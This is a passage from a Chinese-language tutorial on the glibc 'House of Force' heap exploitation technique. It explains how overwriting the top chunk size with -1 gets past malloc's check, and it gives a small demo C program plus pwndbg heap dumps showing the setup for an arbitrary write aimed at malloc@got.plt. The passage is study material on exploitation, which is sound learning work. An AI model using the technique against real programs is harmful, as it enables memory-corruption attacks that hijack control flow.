根据上面的源码知道，假如说top_chunk_size被篡改成很大的值，就可以很轻松的通过这个验证，这也就是前面我们所说的需要一个能够控制top_chunk_size的漏洞。若要绕过这个验证，一般的做法是将top_chunk_size改为-1，因为在进行比较的时候会将size转换为无符号数。进一步来说就是将-1转换为unsigned long中最大的数，所以无论如何可以通过验证。验证通过之后，会将top_chunk指针进行更新，接下来的堆块就会分配到这个位置。用户只要控制了这个指针就相当于控制了任意地址。与此同时，top_chunk的size也会更新。

> 总结一下：如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE。
>

# 向前控制内存-Demo2
在学习完原理之后，我们通过一个简单的示例来进一步说明House Of Force的利用。

> 这个例子的目标是通过HOF（House Of Force）来篡改malloc@got.plt 实现劫持程序流程。
>
> Demo2和之后的Demo3都会出现在我的电脑上gdb调试不出错，但是直接运行程序就会崩溃的情况，暂不清楚导致这种情况的原因。
>

示例的源代码如下：

> gcc -g -z execstack -fno-stack-protector top_chunk_demo1.c -o top_chunk_demo1
>

```c
#include<stdio.h>
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
    return 0;
}
```

和上面的调试步骤相同，对代码的第6行下断点，然后运行程序，查看堆的情况：

```c
pwndbg> x/16gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000021 #chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 #top_chunk
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
pwndbg> info local
ptr = 0x602010
pwndbg> 
```

对程序第7行下断点，让程序运行ptr=(long *)(((long)ptr)+24);

```c
pwndbg> x/16gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000021 #chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 #top_chunk
								#ptr
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
pwndbg> info local
ptr = 0x602028
pwndbg> 
```